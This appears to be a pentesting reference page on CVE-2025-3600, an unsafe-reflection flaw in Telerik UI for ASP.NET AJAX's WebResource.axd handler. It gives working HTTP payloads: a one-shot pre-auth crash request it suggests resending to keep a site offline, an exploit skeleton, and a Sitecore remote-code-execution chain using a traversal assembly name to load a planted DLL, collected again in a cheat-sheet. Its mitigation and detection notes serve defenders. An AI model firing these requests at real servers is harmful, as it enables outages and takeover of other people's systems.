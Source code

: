 # Telerik UI for ASP.NET AJAX – Unsafe Reflection via WebResource.axd (type=iec)

> Pre‑auth constructor execution in Telerik UI for ASP.NET AJAX Image Editor cache handler enables universal DoS and, in many apps, pre‑auth RCE via target‑specific gadgets (CVE-2025-3600).

## TL;DR

- Affected component/route: Telerik.Web.UI.WebResource.axd with query type=iec (Image Editor cache handler). Exposed pre‑auth in many products.
- Primitive: Attacker controls a type name (prtype). The handler resolves it with Type.GetType() and invokes Activator.CreateInstance() before verifying interface type-safety. Any public parameterless .NET type constructor will run.
- Impact:
  - Universal pre‑auth DoS with a .NET framework gadget (PowerShell WSMan finalizer).
  - Often elevates to pre‑auth RCE in real deployments by abusing app‑specific gadgets, especially insecure AppDomain.AssemblyResolve handlers.
- Fix: Update to Telerik UI for ASP.NET AJAX 2025.1.416+ or remove/lock the handler.

## Affected versions

- Telerik UI for ASP.NET AJAX versions 2011.2.712 through 2025.1.218 (inclusive) are vulnerable.
- Fixed in 2025.1.416 (released 2025-04-30). Patch immediately or remove/lock down the handler.

## Affected surface and quick discovery

- Check exposure:
  - GET /Telerik.Web.UI.WebResource.axd should return something other than 404/403 if the handler is wired.
  - Inspect web.config for handlers mapping to Telerik.Web.UI.WebResource.axd.
- Trigger path for the vulnerable code-path requires: type=iec, dkey=1, and prtype=<AssemblyQualifiedType>.

Example probe and generic trigger:

```http
GET /Telerik.Web.UI.WebResource.axd?type=iec&dkey=1&prtype=Namespace.Type, Assembly
```

Notes
- Some PoCs use dtype; the implementation checks dkey=="1" for the download flow.
- prtype must be assembly-qualified or resolvable in the current AppDomain.

## Root cause – unsafe reflection in ImageEditorCacheHandler

The Image Editor cache download flow constructs an instance of a type supplied in prtype and only later casts it to ICacheImageProvider and validates the download key. The constructor has already run when validation fails.

<details>
**Relevant decompiled flow**

```csharp
// entrypoint
public void ProcessRequest(HttpContext context)
{
    string text = context.Request["dkey"];           // dkey
    string text2 = context.Request.Form["encryptedDownloadKey"]; // download key
    ...
    if (this.IsDownloadedFromImageProvider(text)) // effectively dkey == "1"
    {
        ICacheImageProvider imageProvider = this.GetImageProvider(context); // instantiation happens here
        string key = context.Request["key"];
        if (text == "1" && !this.IsValidDownloadKey(text2))
        {
            this.CompleteAsBadRequest(context.ApplicationInstance);
            return; // cast/check happens after ctor has already run
        }
        using (EditableImage editableImage = imageProvider.Retrieve(key))
        {
            this.SendImage(editableImage, context, text, fileName);
        }
    }
}

private ICacheImageProvider GetImageProvider(HttpContext context)
{
    if (!string.IsNullOrEmpty(context.Request["prtype"]))
    {
        return RadImageEditor.InitCacheImageProvider(
            RadImageEditor.GetICacheImageProviderType(context.Request["prtype"]) // [A]
        );
    }
    ...
}

public static Type GetICacheImageProviderType(string imageProviderTypeName)
{
    return Type.GetType(string.IsNullOrEmpty(imageProviderTypeName) ?
        typeof(CacheImageProvider).FullName : imageProviderTypeName); // [B]
}

protected internal static ICacheImageProvider InitCacheImageProvider(Type t)
{
    // unsafe: construct before enforcing interface type-safety
    return (ICacheImageProvider)Activator.CreateInstance(t); // [C]
}
```
</details>

Exploit primitive: Controlled type string → Type.GetType resolves it → Activator.CreateInstance runs its public parameterless constructor. Even if the request is rejected afterwards, gadget side‑effects already occurred.

## Universal DoS gadget (no app-specific gadgets required)

Class: System.Management.Automation.Remoting.WSManPluginManagedEntryInstanceWrapper in System.Management.Automation (PowerShell) has a finalizer that disposes an uninitialized handle, causing an unhandled exception when GC finalizes it. This reliably crashes the IIS worker process shortly after instantiation.

One‑shot DoS request:

```http
GET /Telerik.Web.UI.WebResource.axd?type=iec&dkey=1&prtype=System.Management.Automation.Remoting.WSManPluginManagedEntryInstanceWrapper,+System.Management.Automation,+Version%3d3.0.0.0,+Culture%3dneutral,+PublicKeyToken%3d31bf3856ad364e35
```

Notes
- Keep sending periodically to keep the site offline. You may observe the constructor being hit in a debugger; crash occurs on finalization.

## From DoS to RCE – escalation patterns

Unsafe constructor execution unlocks many target‑specific gadgets and chains. Hunt for:

1) Parameterless constructors that process attacker input
- Some ctors (or static initializers) immediately read Request query/body/cookies/headers and (de)serialize them.
- Example (Sitecore): a ctor chain reaches GetLayoutDefinition() which reads HTTP body "layout" and deserializes JSON via JSON.NET.

2) Constructors that touch files
- Ctros that load or deserialize config/blobs from disk can be coerced if you can write to those paths (uploads/temp/data folders).

3) Constructors performing app-specific ops
- Resetting state, toggling modules, or terminating processes.

4) Constructors/static ctors that register AppDomain event handlers
- Many apps add AppDomain.CurrentDomain.AssemblyResolve handlers that build DLL paths from args.Name without sanitization. If you can influence type resolution you can coerce arbitrary DLL loads from attacker‑controlled paths.

5) Forcing AssemblyResolve via Type.GetType
- Request a non-existent type to force CLR resolution and invoke registered (possibly insecure) resolvers. Example assembly-qualified name:

```
This.Class.Does.Not.Exist, watchTowr
```

6) Finalizers with destructive side effects
- Some types delete fixed-path files in finalizers. Combined with link-following or predictable paths this can enable local privilege escalation in certain environments.

## Example pre‑auth RCE chain (Sitecore XP)

- Step 1 – Pre‑auth: Trigger a type whose static/instance ctor registers an insecure AssemblyResolve handler (e.g., Sitecore’s FolderControlSource in ControlFactory).
- Step 2 – Post‑auth: Obtain write into a resolver-probed directory (e.g., via an auth bypass or weak upload) and plant a malicious DLL.
- Step 3 – Pre‑auth: Use CVE‑2025‑3600 with a non-existent type and a traversal‑laden assembly name to force the resolver to load your planted DLL → code execution as the IIS worker.

Trigger examples

```http
# Load the insecure resolver (no auth on many setups)
GET /-/xaml/Sitecore.Shell.Xaml.WebControl

# Coerce the resolver via Telerik unsafe reflection
GET /Telerik.Web.UI.WebResource.axd?type=iec&dkey=1&prtype=watchTowr.poc,+../../../../../../../../../watchTowr
```

## Validation, hunting and DFIR notes

- Safe lab validation: Fire the DoS payload and watch for app pool recycle/unhandled exception tied to the WSMan finalizer.
- Hunt in telemetry:
  - Requests to /Telerik.Web.UI.WebResource.axd with type=iec and odd prtype values.
  - Failed type loads and AppDomain.AssemblyResolve events.
  - Sudden w3wp.exe crashes/recycles following such requests.

## Mitigation

- Patch to Telerik UI for ASP.NET AJAX 2025.1.416 or later.
- Remove or restrict exposure of Telerik.Web.UI.WebResource.axd where possible (WAF/rewrites).
- Ignore or harden prtype handling server-side (upgrade applies proper checks before instantiation).
- Audit and harden custom AppDomain.AssemblyResolve handlers. Avoid building paths from args.Name without sanitization; prefer strong-named loads or whitelists.
- Constrain upload/write locations and prevent DLL drops into probed directories.
- Monitor for non-existent type load attempts to catch resolver abuse.

## Cheat‑sheet

- Presence check:
  - GET /Telerik.Web.UI.WebResource.axd
  - Look for handler mapping in web.config
- Exploit skeleton:

```http
GET /Telerik.Web.UI.WebResource.axd?type=iec&dkey=1&prtype=<TypeName,+Assembly,+Version=..., +PublicKeyToken=...>
```

- Universal DoS:

```http
...&prtype=System.Management.Automation.Remoting.WSManPluginManagedEntryInstanceWrapper,+System.Management.Automation,+Version%3d3.0.0.0,+Culture%3dneutral,+PublicKeyToken%3d31bf3856ad364e35
```

- Trigger resolver:

```
This.Class.Does.Not.Exist, watchTowr
```

## Related techniques

- IIS post-exploitation, .NET key extraction, and in‑memory loaders:

[[iis-internet-information-services.md]]

- ASP.NET ViewState deserialization and machineKey abuses:

[[../../pentesting-web/deserialization/exploiting-__viewstate-parameter.md]]

## References

- [watchTowr labs – More than DoS: Progress Telerik UI for ASP.NET AJAX Unsafe Reflection (CVE-2025-3600)](https://labs.watchtowr.com/more-than-dos-progress-telerik-ui-for-asp-net-ajax-unsafe-reflection-cve-2025-3600/)
- [Black Hat USA 2019 – SSO Wars: The Token Menace (Mirosh & Muñoz) – DoS gadget background](https://i.blackhat.com/USA-19/Wednesday/us-19-Munoz-SSO-Wars-The-Token-Menace-wp.pdf)
- [ZDI – Abusing arbitrary file deletes to escalate privilege](https://www.zerodayinitiative.com/blog/2022/3/16/abusing-arbitrary-file-deletes-to-escalate-privilege-and-other-great-tricks)
- [watchTowr – Is “B” for Backdoor? (Sitecore chain CVE-2025-34509)](https://labs.watchtowr.com/is-b-for-backdoor-pre-auth-rce-chain-in-sitecore-experience-platform/)

